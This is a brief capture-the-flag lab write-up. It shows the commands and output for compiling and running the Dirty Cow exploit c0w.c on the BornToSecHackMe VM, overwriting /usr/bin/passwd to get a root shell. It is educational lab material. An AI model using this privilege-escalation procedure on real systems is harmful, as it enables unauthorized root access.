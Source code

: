 # Writeup 4
**Another dirty cow!**  
We start with writeup1 after logging in as **laurie**.  
We will use the Dirty Cow exploit again, with another way. With the exploit c0w.c.  
We have to uncomment the correct payload for x86 inside the cow code.    

This dirty cow version will not add a new user but will change the binary /usr/bin/passwd.   
If we run the binary code it will open the root shell.

```
laurie@BornToSecHackMe:$ cd /tmp
laurie@BornToSecHackMe:/tmp$ vim c0w.c
laurie@BornToSecHackMe:/tmp$ gcc -pthread c0w.c  -o c0w
laurie@BornToSecHackMe:/tmp$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap b7e04000

madvise 0

ptrace 0
```
Now just call /usr/bin/passwd
```
laurie@BornToSecHackMe:/tmp$ /usr/bin/passwd
root@BornToSecHackMe:/tmp#
root@BornToSecHackMe:/root# cat README
CONGRATULATIONS !!!!
To be continued...
```
**🏁 Finally we are Root**
